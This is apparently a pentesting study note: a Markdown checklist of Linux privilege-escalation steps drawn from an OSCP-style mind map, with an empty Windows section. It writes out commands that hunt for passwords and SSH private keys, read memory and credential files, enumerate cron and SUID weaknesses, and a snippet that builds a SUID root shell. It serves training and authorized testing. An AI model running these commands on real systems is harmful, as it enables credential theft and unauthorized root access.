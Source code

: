# Privilege Escalation Methodology👽
##  Few words before going on
"**Slow is smooth, and smooth is fast**"
Be methodical in what you do or you will get lost. 

Now we are inside the system as a low-privileged user, to obtain an elevated privileged user account we have to find a vector we can use to climb the privileges ladder.

#### Mind map & checklist
We think that the mind map provived by Conda (please, go support him on [his](https://www.youtube.com/channel/UCzK5oAENyQJcnH5SvEquo8A) YouTube channel) is very useful and straightforward. So, we've decided to translate it into this checklist. While the mind map gives you an immediate overview of what you should do, the checklist gives you the possibility to visualize what you already have done.
You can find the mind map created with Obsidian by us here  ![[linux_privesc_mindmap.png]] and the Conda's original one (That is better in term of design) [here](https://github.com/C0nd4/OSCP-Priv-Esc). Go check his playlist on YouTube!, you can find the link under the PrivEsc section inside README.MD ([[README#PrivEsc]])

_**Be aware**: our translation does not completely reflect the Conda's mind map as we added/modified some parts._

## Linux
### Credential Access
- [ ] Try known passwords
- [ ] Search creds from config files (Try different word other the PASSWORD, e.g: pass, passwd, pwd, user, usr, username, secret, cred, credential, auth):
> grep \--color\=auto \-rnw '/' \-ie "PASSWORD" \--color\=always 2> /dev/null
> find . \-type f \-exec grep \-i \-I "PASSWORD" {} /dev/null
> locate password | more
- [ ] Search creds from local DBs
- [ ] Search creds from bash history:
> history
> cat ~/.bash_history
- [ ] Search creds from memory:
> strings /dev/mem \-n10 | grep \-i PASS
- [ ] SSH keys:
> cat ~/.ssh/id_rsa
> ls ~/.ssh/\*
> find / -name authorized_keys 2> /dev/null
> find / -name id_rsa 2> /dev/null
- [ ] Sudo privileges:
> sudo -l
- [ ] Group:
> id
> groups

### Exploit
- [ ] Services running on localhost are vulnerable?
> ps aux
> ps aux | grep root
- [ ] Kernel version,  is it vulnerable?
> uname -a
> (cat /proc/version || uname -a ) 2>/dev/null
> lsb_release -a 2>/dev/null
- [ ] Binary file versions, vulnerable?
> sudo -V

### Misconfiguration
- [ ] Cron job -> check for write permissions on the following files:
> /etc/init.d
> /etc/cron\*
> /etc/crontab
> /etc/cron.allow
> /etc/cron.d 
> /etc/cron.deny
> /etc/cron.daily
> /etc/cron.hourly
> /etc/cron.monthly
> /etc/cron.weekly
> /etc/sudoers
> /etc/exports
> /etc/anacrontab
> /var/spool/cron
> /var/spool/cron/crontabs/root
> crontab \-l
> ls \-alh /var/spool/cron;
> ls \-al /etc/ | grep cron
> ls \-al /etc/cron\*
> cat /etc/cron\*
> cat /etc/at.allow
> cat /etc/at.deny
> cat /etc/cron.allow
> cat /etc/cron.deny\*
- [ ] Writeable cron job dependecy (File, Python library, etc)
- [ ] Find SUID:
> find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \\;
> find / -uid 0 -perm -4000 -type f 2>/dev/null
- [ ] Check SUID on [GTFOBins](https://gtfobins.github.io/)
- [ ] Create SUID:
```bash
print 'int main(void){\\nsetresuid(0, 0, 0);\\nsystem("/bin/sh");\\n}' \> /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```
- [ ] SGID:
> find / -perm -g=s -type f 2>/dev/null
> find / -perm +2000 -user root -type f -print
- [ ] Interesting capabilities on binary
- [ ] Any accessible sensitive file?
	- [ ] /etc/passwd
	- [ ] /etc/shadow
	- [ ] /etc/sudoers
	- [ ] Configuration files
	- [ ] /root/.ssh/id_rsa
	- [ ] entire root folder
	- [ ] Check env info
	 > (env || set) 2>/dev/null
	 > echo $PATH
- [ ] Writeable PATH
	- [ ] Root $PATH writeable
	- [ ] Directory in PATH writeable
- [ ] LD_PRELOAD set in /etc/sudoers
- [ ] Nothing yet? Google-Fu the web to look for other checklists
## Windows
### Credential Access
### Exploit
### Misconfiguration